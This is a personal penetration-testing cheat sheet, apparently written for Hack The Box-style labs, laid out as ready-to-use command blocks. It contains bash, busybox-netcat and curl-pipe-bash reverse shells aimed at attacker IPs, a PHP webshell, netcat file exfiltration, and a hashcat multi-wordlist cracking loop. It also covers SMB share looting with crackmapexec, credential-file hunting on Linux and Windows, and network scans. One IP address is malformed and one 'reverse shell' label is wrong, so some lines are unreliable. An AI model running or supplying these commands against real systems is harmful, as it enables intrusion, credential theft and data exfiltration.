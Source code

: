 ```yaml
---
description: >-
  A list of commands I regularly rely on and always like to have handy. They’ve
  saved me time more than once, and it’s great to keep them within reach for
  quick access.
---
```


# Essentials

### Shells

```bash
# Bash shell
bash -c 'bash -i >& /dev/tcp/10.14.11./443 0>&1'

# Small php webshell
system($_GET['cmd']);

# PHP Curl shell
<?php system('curl 10.10.your.ip/rev.sh|bash') ?>

# Busybox
busybox nc 172.16.210.3 7878 -e /bin/bash
```

{% embed url="https://www.revshells.com/" %}

### Upgrading shell

```bash
# Python shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
ctrl + z
stty raw -echo; fg
export TERM=xterm

# Shell 
/bin/sh -i

# Bash shell
script /dev/null -c bash
```

### NC File transfer

```bash
# Listen
nc -lvnp 8888 > pass.txt

# Send
nc -w 3 10.129.231.66 8888 < pass.txt
```

### Use multiple wordlists with tools

Use multiple wordlists with tools like Hashcat or Ffuff.

```bash
#!/bin/bash
# Configuration
hash_file="hash"
hash_type=5600
wordlists=(
    "/home/kali/rockyou.txt"
    "/home/kali/SecLists/Passwords/xato-net-10-million-passwords-1000000.txt"
    "/home/kali/SecLists/Passwords/openwall.net-all.txt"
    "/home/kali/SecLists/Passwords/mssql-passwords-nansh0u-guardicore.txt"
    "/home/kali/SecLists/Passwords/Most-Popular-Letter-Passes.txt"
    "/home/kali/SecLists/Passwords/probable-v2-top12000.txt"
    "/home/kali/SecLists/Passwords/darkweb2017-top10000.txt"
    "/home/kali/SecLists/Passwords/cirt-default-passwords.txt"
    "/home/kali/SecLists/Passwords/500-worst-passwords.txt"
    "/home/kali/SecLists/Passwords/2023-200_most_used_passwords.txt"
)

# Loop through each wordlist and run Hashcat
for wordlist in "${wordlists[@]}"; do
  if [[ -f "$wordlist" ]]; then
    echo "Running Hashcat with wordlist: $wordlist"
    hashcat -m "$hash_type" "$hash_file" "$wordlist" --quiet
  else
    echo "Wordlist not found: $wordlist"
  fi
done

echo "Hashcat scanning complete."
```

### Curl shell

```bash
curl http://10.10.14.74:8000/shell.sh --output /tmp/shell.sh
```

### SMB

```bash
# No login
smbclient -N -L 10.10.10.10

# Call share
smbclient //10.10.10.10/share

# Login
smbclient -L 10.129.123.30 -U Administrator

# Get shares
sudo crackmapexec smb 172.16.7.3 -u 'username' -p 'password' --shares

# Download share recursive
smbclient \\\\172.16.19.3\\Users -U username -c "prompt off; recurse on; mget *" 

# Setup server
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```

### Search in Linux

```bash
# Search user
find / -user srvadm 2>/dev/null | grep -v '^/proc\|^/sys\|^/run'

# Search groups
find / -group staff -writable 2>/dev/null | grep -v '^/proc\|^/sys\|^/run'

# Using find
find . -name thisfile.txt

# Search config files
for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done

# Search for password
for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" $i 2>/dev/null | grep -v "\#";done

# Search for databases
for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share\|man";done
```

### Search in Windows

<pre class="language-bash"><code class="lang-bash"># Search string
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml

# Search powershell
PS C:\htb> findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml

# Search file contents for string
findstr /SI /M "password" *.xml *.ini *.txt
<strong>
</strong><strong># Search file contents with powershell
</strong>select-string -Path C:\Users\htb-student\Documents\*.txt -Pattern password

# Search for file extensions
dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*

# Search for file extensions
where /R C:\ *.config

# Search exentions powershell
Get-ChildItem C:\ -Recurse -Include *.rdp, *.config, *.vnc, *.cred -ErrorAction Ignore
</code></pre>

### Netcat

```bash
# Port forward
ncat -k -l -p 8001 -c "ncat localhost 8000"

# Reverse shell
ssh -R 33555:localhost:9999 root@142.93.142.231

# Ping sweep
nc -vz -w 2 192.168.1.1-254

# Port scan
nc -vz -w 0.1 192.168.1.1-254 | grep -v "Connection timed out"
```
